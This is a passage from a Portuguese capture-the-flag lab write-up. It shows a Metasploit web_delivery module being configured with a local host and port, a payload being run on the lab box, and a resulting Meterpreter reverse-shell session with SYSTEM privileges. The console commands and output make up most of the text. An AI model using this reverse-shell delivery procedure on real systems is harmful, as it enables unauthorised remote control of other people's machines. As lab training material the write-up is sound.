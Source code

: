 ```shell
    6   PSH (Binary)
    7   Linux
    8   Mac OS X


msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > 

msf6 exploit(multi/script/web_delivery) > set lhost tun0
lhost => 10.2.109.206
msf6 exploit(multi/script/web_delivery) > set lport 4444
lport => 4444
msf6 exploit(multi/script/web_delivery) > 
```
{: .nolineno }
run e será gerado um payload, execute no terminal da box
![alt text](/assets/img/blaster/blaster6.png)

recebi a sessão meterpreter

```shell
msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ RETROWEB  10.2.109.206:4444 -> 10.10.25.237:49959 (10.10.25.237)

msf6 exploit(multi/script/web_delivery) > [*] Meterpreter session 1 opened (10.2.109.206:4444 -> 10.10.25.237:49959) at 2024-02-14 01:18:42 -0300

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
{: .nolineno }
